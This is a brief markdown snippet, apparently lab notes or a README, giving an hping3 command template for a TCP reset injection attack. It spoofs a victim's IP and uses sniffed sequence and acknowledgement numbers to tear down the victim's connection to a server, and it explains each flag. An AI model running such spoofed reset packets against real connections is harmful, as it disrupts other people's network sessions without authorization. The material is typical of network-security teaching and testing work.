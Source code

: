 ## Hping3
```
hping3 <target_server> -s <src_port> -p <des_port> -a <spoof_ip> -R -A -M <syn_num> -L <ack_num>
```

> -s <src_port> : source port of victim , see by sniff
> -p <des_port> : port of server , victim connected to
> -a <spoof_ip> : ip of victim to spoof in packet
> -R : reset flag
> -A : Ack
> -M : syn number that server expecting next by victim
> -L : ack number sent by server